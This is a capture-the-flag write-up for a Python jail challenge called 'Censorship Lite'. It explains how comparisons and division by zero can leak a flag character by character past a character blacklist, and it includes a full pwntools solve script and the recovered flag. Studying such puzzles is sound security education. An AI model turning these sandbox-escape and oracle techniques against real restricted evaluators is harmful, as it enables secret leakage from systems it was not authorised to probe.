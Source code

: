 # Misc - Censorship Lite

## Problem

We are faced with yet another Python jail problem:

```python
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

It is mentioned in problem statement that flag format is `amateursCTF{[a-zA-Z_]*}`

## Solution

The difficulty for this Python Jail is further increased, with `\lite0123456789` and `:<(){}*,-.` blocked. This effectively blocks most functions calls. One notable exception is `>` character. 

The main idea here is to compute `1/(_[flag_pos]>test_char)`. To generate numbers, recall that:
* `z = False + False = 0` and `o = False + True = 1`. We can construct `False` via `'b'>'b'` and `True` via `'b'>'a'`
* We also replace flag_pos with `(o+o+...+o)`


We can now compute and enumerate every flag character depending on whether `zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz` is printed (i.e. exception thrown), and stop when it first throws. However, for characters `lite` can be `mjuf` as we are not directly testing `lite` due to the filter. Some guesswork at the end helps us obtain the flag.

Solve script is as follows:

```python
import string
from pwn import *

r = remote('amt.rs', 31672)
print(r.recv(256))
# Needs correction for some "lite" to "mjuf" or vice versa
flag = 'amateursCTF{'
# e.g. 'elag' --> 'flag'
corrected_flag = 'amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}'
print(len(flag))
flaglen = 97
# Re-run a few times due to timeout, store partial result in "flag"
censor = "lite0123456789 :< :( ): :{ }: :*\ ,-."
for j in range(len(flag), flaglen + 1):
    for c in string.ascii_uppercase + '_' + string.ascii_lowercase:
        if c in censor:
            continue
        baselogic="x='a'>'a';y='b'>'a';z=x+x;o=x+y;"
        # Attempt to trigger division by zero for confirmation (j > 0 since "amateursCTF{" is known)
        jstr = '+'.join(['o']*j)
        divzero_test = f"d=_[{jstr}]>'{c}';o/d;"
        payload = baselogic + divzero_test
        r.sendline(payload.encode('utf-8'))
        res = r.recv(256).decode('utf-8')
        if 'zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz' in res:
            # Special chars may have more options, but "lite" appearances make sense in most cases

            if chr(ord(c) - 1) in 'lite':
                print(f'Position {j} is either {c} or {chr(ord(c) - 1)}')
                flag += chr(ord(c) - 1)
            else:
                flag += c
            print('FLAG:', flag)
            break
```

## Flag

amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}